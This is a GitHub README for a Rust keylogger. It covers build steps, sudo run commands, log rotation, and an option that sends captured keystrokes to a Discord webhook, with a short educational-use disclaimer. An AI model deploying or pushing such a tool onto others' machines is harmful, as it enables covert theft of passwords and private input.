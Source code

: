 # keylogger-rs

[![Rust](https://img.shields.io/badge/Rust-1.85+-orange.svg)](https://www.rust-lang.org/)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![GitHub issues](https://img.shields.io/github/issues/lafayettegabe/keylogger-rs)](https://github.com/lafayettegabe/keylogger-rs/issues)
[![GitHub stars](https://img.shields.io/github/stars/lafayettegabe/keylogger-rs)](https://github.com/lafayettegabe/keylogger-rs/stargazers)
![Platform](<https://img.shields.io/badge/platform-Linux%20%7C%20Windows(planned)%20%7C%20macOS(planned)-lightgrey>)

A simple, cross-platform keylogger utility written in Rust with features for automated log rotation and remote logging.

## Features

- Keyboard event monitoring and logging on Linux (with more platforms planned)
- Configurable log rotation with customizable intervals
- Discord webhook integration for remote log delivery
- Simple command-line interface
- Clean logging format with detailed timestamps

## Requirements

- Rust 1.85.0 or newer
- For Linux support:
  - `libudev-dev` package (for evdev support)
  - Root access (to read from input devices)

## Installation

```bash
# Clone the repository
git clone https://github.com/lafayettegabe/keylogger-rs.git
cd keylogger-rs

# Build with default features (Linux and Discord support)
cargo build --release

# Build with specific features only
cargo build --release --no-default-features --features linux
```

## Usage

```bash
# Basic usage
sudo ./target/release/keylogger-rs -s linux -o logs -d 3600

# With Discord webhook
sudo ./target/release/keylogger-rs -s linux -o logs -d 3600 -w https://discord.com/api/webhooks/your-webhook-url
```

### Command-line options

```
USAGE:
    keylogger-rs [OPTIONS] --os <OS>

OPTIONS:
    -s, --os <OS>              Operating system (linux, windows, mac)
    -o, --output <DIRECTORY>   Directory to save log files [default: logs]
    -d, --duration <SECONDS>   Log rotation interval in seconds [default: 3600]
    -w, --webhook <URL>        Discord webhook URL for sending logs
    -h, --help                 Print help information
    -V, --version              Print version information
```

### Environment Variables

Instead of command-line arguments, you can use environment variables:

- `KEYLOGGER_OUTPUT`: Directory to save log files
- `KEYLOGGER_DURATION`: Log rotation interval in seconds
- `KEYLOGGER_WEBHOOK`: Discord webhook URL

## Project Structure

```
src
├── config           # Command-line and configuration handling
├── main.rs          # Application entry point
├── os               # OS-specific implementations
│   ├── linux        # Linux keyboard monitoring
│   │   └── keyboard
├── utils            # Utility modules
    ├── errors       # Error handling
    ├── log_manager  # Log rotation and management
    └── writer       # File writing utilities
```

## Feature Flags

- `linux`: Enables Linux keyboard monitoring support via evdev
- `discord`: Enables Discord webhook integration via reqwest
- Default features include both `linux` and `discord`

## How It Works

1. The program detects a keyboard device on the system
2. Key press and release events are captured with timestamps
3. Events are written to log files in the specified output directory
4. Logs are rotated at the configured interval
5. If a Discord webhook is configured, logs are sent there before deletion

## Log Format

Each log entry includes:

- Precise timestamp with millisecond precision
- Event type (Pressed/Released)
- Key code

Example:

```
[2025-03-17 14:22:31.123] Pressed: KEY_A
[2025-03-17 14:22:31.245] Released: KEY_A
```

## Platform Support

- ✅ Linux: Fully supported
- 🔄 Windows: Planned
- 🔄 macOS: Planned

## Security Notice

⚠️ **This software is intended for educational purposes and legitimate system monitoring only.** Always ensure you have explicit permission to monitor keyboard activity on any system. Unauthorized monitoring may violate local laws.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

1. Fork the project
2. Create your feature branch (`git checkout -b feature/amazing-feature`)
3. Commit your changes (`git commit -m 'Add some amazing feature'`)
4. Push to the branch (`git push origin feature/amazing-feature`)
5. Open a Pull Request
